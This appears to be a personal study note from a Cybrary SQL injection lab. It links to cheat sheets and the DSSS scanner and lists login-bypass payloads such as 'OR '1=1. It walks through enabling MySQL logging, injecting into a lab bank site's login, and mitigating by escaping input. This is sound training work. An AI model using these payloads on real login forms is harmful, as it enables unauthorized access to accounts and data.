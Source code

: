 [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)  
[https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads](https://github.com/payloadbox/sql-injection-payload-list#generic-sql-injection-payloads)  
  
Automatic - Damn Small SQLi Scanner  
Github: [https://github.com/stamparm/DSSS](https://github.com/stamparm/DSSS)  
Quick install: git clone https://github.com/stamparm/DSSS.git && cd DSSS/  
  
[https://suip.biz/?act=sqlmap](https://suip.biz/?act=sqlmap)  
  
within the browser  
<username>' OR '1=1  
'or 1 -- -  
1 or 1=1-- -  
1' or '1'='1'-- -  
  
  
sql syntax  
  
From Cybrary SQL Injection Lab  
login to mySQL  
$ mysql --user=root --password=P@ssw0rd  
  
view all of MySQL variable settings  
>SHOW VARIABLES  
  
display any row that contains the word “general” in it.  
> SHOW VARIABLES LIKE '%general%';  
  
enable the general log.  
> SET GLOBAL general_log = 1;  
  
view all of MySQL variable settings again to confirm value on  
>SHOW VARIABLES  
  
quit mySQL interactive mode  
>\q  
  
on the bank website - Login with Bob in the Username field and type p@ssword1 into the Password field  
  
view the last four lines of the log file. Enter P@ssw0rd when prompted.  
$sudo tail -4 /var/lib/mysql/Web.log  
![[b56669b6992cfc1116f09bfebb47093e.png]]

(https://lab.infoseclearning.com/sites/default/files/u766/Capstone/expected%20query.PNG)  
  
On the bank website - Login with Alice' OR '1=1  
view the last four lines of the log file. Enter P@ssw0rd when prompted.  
$sudo tail -4 /var/lib/mysql/Web.log  
![[90ff584d39c2f3e3b68a1fa1037c6c5e.png]]
(https://lab.infoseclearning.com/sites/default/files/u98/SQL_Injection/image028.jpg)  
  
mitigate attack  
open the action script into nano and provide your sudo password if prompted.  
$ sudo nano –c /var/www/WebServer/checklogin.php  
uncomment under  
//Escape variables; Formulate and send MySQL query  
save  
  
try to use the exploit and it won't work  
  
view the last four lines of the log file. Enter P@ssw0rd when prompted.  
$sudo tail -4 /var/lib/mysql/Web.log  
![[5f97499c9a9321272b6f73c8c8cf74a1.png]]
(https://lab.infoseclearning.com/sites/default/files/u98/SQL_Injection/image034.jpg)